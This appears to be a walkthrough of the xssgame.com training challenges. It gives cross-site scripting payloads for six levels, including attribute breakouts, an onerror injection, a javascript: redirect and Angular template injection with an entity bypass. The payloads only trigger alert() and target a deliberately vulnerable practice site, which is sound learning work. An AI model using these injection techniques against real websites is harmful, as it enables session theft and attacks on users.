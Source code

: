 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.
high
```
<script>alert()</script>
```

## Level 2

The input becomes the argument of `onload="startTimer(...);"` like this: `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call which ends up with "ending" of the original function call.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead and supply input for a working `src` attribute, or try to close of the `img` tag.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```
